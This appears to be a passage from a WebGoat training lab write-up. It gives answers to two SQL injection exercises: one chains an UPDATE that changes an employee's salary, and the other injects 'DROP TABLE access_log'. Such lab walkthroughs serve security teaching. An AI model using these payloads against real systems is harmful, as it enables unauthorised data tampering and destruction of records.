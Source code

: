 ### 12. Compromsiing Integrity with Query chaining
```
Employee Name: Smith'; UPDATE employees SET salary = '120000' WHERE first_name = 'John' AND last_name = 'Smith
```
![](pictures/WebGoat_12_Query_chaining.png)

### 13. Compromising Availability
```
Sebastien'; DROP TABLE access_log;--
```